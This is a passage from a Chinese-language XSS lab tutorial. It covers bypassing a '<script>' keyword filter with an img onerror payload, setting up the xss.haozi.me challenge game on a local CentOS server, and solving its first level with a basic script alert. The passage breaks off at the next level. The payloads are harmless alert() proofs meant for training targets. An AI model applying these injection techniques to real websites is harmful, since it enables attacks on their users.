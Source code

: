 ```
?>
```

相比前面的medium，只是加上了对<script>关键字的限制，

构建payload：

```
<img src=x onerror=alert('123')>
```

![image-20211223161519345](https://gitee.com/xxb667/img/raw/master/img/image-20211223161519345.png)

## XSS 攻击小游戏

在线网站：https://xss.haozi.me/#/0x00

如果打不开可以把源代码放到本地，如果你可以打开这个网站那么就不用再安装。

把xss.zip上传到 centos  `/var/www/html`

```
cd /var/www/html
unzip xss.zip
```

在浏览器打开我们的靶场地址：

```
http://192.168.81.135/xss
```

进入靶场随便起个名字,靶场规则 只要能弹窗即可过关。

![image-20211223151542854](https://gitee.com/xxb667/img/raw/master/img/image-20211223151542854.png)

然后进入第一关：

![image-20211223151556676](https://gitee.com/xxb667/img/raw/master/img/image-20211223151556676.png)

### 0x00:

我们看下server code  这一关没有任何过滤

所以我们直接用以下payload 即可过关。

```
<script>alert(1);</script>
```

![image-20211223161929579](https://gitee.com/xxb667/img/raw/master/img/image-20211223161929579.png)

### 0x01:

![image-20211223151749829](https://gitee.com/xxb667/img/raw/master/img/image-20211223151749829.png)

```
<textarea> </textarea>  标签定义多行的文本输入,标签里面的都定义为文本
```
